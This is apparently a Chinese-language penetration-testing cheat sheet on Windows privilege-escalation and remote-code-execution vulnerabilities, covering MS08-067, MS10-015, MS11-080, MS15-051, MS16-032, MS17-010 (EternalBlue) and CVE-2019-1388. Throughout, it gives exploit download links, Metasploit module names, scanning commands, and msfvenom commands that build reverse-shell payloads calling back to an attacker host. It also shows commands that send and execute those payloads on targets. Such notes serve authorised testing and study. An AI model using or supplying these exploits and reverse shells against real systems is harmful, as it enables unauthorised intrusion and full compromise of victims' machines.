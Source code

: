 # 重大提权漏洞

## ****MS08-067 (NetAPI)****

nmap -Pn -p445 --open --max-hostgroup 3 --script smb-vuln-ms08-067 <**ip**>

**利用方式:**

[https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py](https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py)

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f py -v shellcode -a x86 --platform windows
```

```bash
Example: MS08_067_2018.py 192.168.1.1 1 445 -- for Windows XP SP0/SP1 Universal, port 445
Example: MS08_067_2018.py 192.168.1.1 2 139 -- for Windows 2000 Universal, port 139 (445 could also be used)
Example: MS08_067_2018.py 192.168.1.1 3 445 -- for Windows 2003 SP0 Universal
Example: MS08_067_2018.py 192.168.1.1 4 445 -- for Windows 2003 SP1 English
Example: MS08_067_2018.py 192.168.1.1 5 445 -- for Windows XP SP3 French (NX)
Example: MS08_067_2018.py 192.168.1.1 6 445 -- for Windows XP SP3 English (NX)
Example: MS08_067_2018.py 192.168.1.1 7 445 -- for Windows XP SP3 English (AlwaysOn NX)
python ms08-067.py 10.0.0.1 6 445
```

## ****MS10-015 (KiTrap0D) - WIN NT/2000/2003/2008/XP/Vista/7****

```bash
https://www.exploit-db.com/exploits/11199

Metasploit : exploit/windows/local/ms10_015_kitrap0d
```

## ****MS11-080 (afd.sys) - Microsoft Windows XP/2003****

```bash
Python: https://www.exploit-db.com/exploits/18176
Metasploit: exploit/windows/local/ms11_080_afdjoinleaf
```

## ****MS15-051 (Client Copy Image) - WIN 2003/2008/7/8/2012****

```bash
printf("[#] usage: ms15-051 command \n");
printf("[#] eg: ms15-051 \"whoami /all\" \n");

# x32
https://github.com/rootphantomer/exp/raw/master/ms15-051%EF%BC%88%E4%BF%AE%E6%94%B9%E7%89%88%EF%BC%89/ms15-051/ms15-051/Win32/ms15-051.exe

# x64
https://github.com/rootphantomer/exp/raw/master/ms15-051%EF%BC%88%E4%BF%AE%E6%94%B9%E7%89%88%EF%BC%89/ms15-051/ms15-051/x64/ms15-051.exe

https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051
use exploit/windows/local/ms15_051_client_copy_image
```

## ****MS16-032 - WIN 7 < 10 / 2008 < 2012 R2 (x86/x64)****

**查找先决条件，是否打补丁   wmic qfe list | findstr "3139914”** 

```bash
Powershell:
https://www.exploit-db.com/exploits/39719/
https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Invoke-MS16-032.ps1

Binary exe : https://github.com/Meatballs1/ms16-032

Metasploit : exploit/windows/local/ms16_032_secondary_logon_handle_privesc
```

## ****MS17-010 (Eternal Blue)****

**验证是否具有漏洞 :**

```bash
crackmapexec smb 10.10.10.10 -u '' -p '' -d domain -M ms17-010
```

```bash
git clone https://github.com/helviojunior/MS17-010

# generate a simple reverse shell to use
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 EXITFUNC=thread -f exe -a x86 --platform windows -o revshell.exe
python2 send_and_execute.py 10.0.0.1 revshell.exe
```

## ****CVE-2019-1388 (**** Win 7/ Win 10 LTSC 10240****)****

**EXP : [https://packetstormsecurity.com/files/14437/hhupd.exe.html](https://packetstormsecurity.com/files/14437/hhupd.exe.html)**